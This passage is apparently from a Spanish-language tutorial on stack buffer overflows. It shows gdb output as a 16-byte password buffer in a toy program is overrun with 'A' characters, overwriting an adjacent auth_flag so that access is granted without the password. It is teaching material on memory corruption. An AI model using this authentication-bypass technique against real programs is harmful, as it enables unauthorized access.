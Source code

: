 ```bash
```

Abrimos el programa con el depurador y ponemos puntos de ruptura en las líneas 9 y 16. Después lo ejecutamos pasándole como argumento una cadena con Aes. Al llegar al primer punto de ruptura examinamos la variable *password_buffer*, que hasta ahora solo contiene basura. Examinamos la variable *auth_flag* y vemos que contiene un cero. Luego restamos las direcciones de ambas variables, averiguando así la distancia entre ellas, en este caso *auth_flag* está 28 bytes despues de *password_buffer*. Veamos qué podemos hacer con esto:

```bash
(gdb) c
Continuing.

Breakpoint 2, check_authentication (password=0xbffff9f4 'A' </repeats><repeats>)
    at auth_overflow.c:16
16              return auth_flag;
(gdb) x/s password_buffer
0xbffff7d0:      'A' </repeats><repeats>
(gdb) x/x &auth;_flag
0xbffff7ec:     0x41414141
(gdb) x/16xw password_buffer
0xbffff7d0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffff7e0:     0x41414141      0x41414141      0x41414141      (0x41414141)
0xbffff7f0:     0x41414141      0x08048500      0xbffff808      0x080484bb
0xbffff800:     0xbffff9f4      0x08048510      0xbffff868      0xb7eafebc
(gdb) x/4cb &auth;_flag
0xbffff7ec:     65 'A'  65 'A'  65 'A'  65 'A'
(gdb) x/dw &auth;_flag
0xbffff7ec:     1094795585

```

En el siguiente punto de rutpura, volvemos a examinar las variables y se puede apreciar que la variable *password_buffer* se ha desbordado, ya que tenía capacidad para 16 caracteres, y hemos intentado guardar 36. Si vemos el contenido de *auth_flag* ya no tiene un cero, si no 0x41414141, lo cual corresponde a cuatro Aes (41 en hexadecimal es el código ASCII de la A). Se puede apreciar claramente cómo se ha desbordado el array en la instrucción *x/16xw password_buffer*, el valor encerrado entre paréntesis es el de la variable *auth_flag*, el cual se ha sobrescrito. Por último vemos que el valor en decimal de 0x41414141 es 1094795585.

```bash
(gdb) c
Continuing.

-=-=-=-=-=-=-=-=-=-=-=-=-=-
      Acceso concedido.
-=-=-=-=-=-=-=-=-=-=-=-=-=-

Program exited with code 034.

```

Continuamos con la ejecución y nos da acceso a pesar de que no hemos introducido la contraseña correcta. Esto se debe a que hemos sobrescrito la variable *auth_flag* y, por lo tanto, la función *check_authentication* devolverá el valor *0x41414141, 1094795585* en decimal.
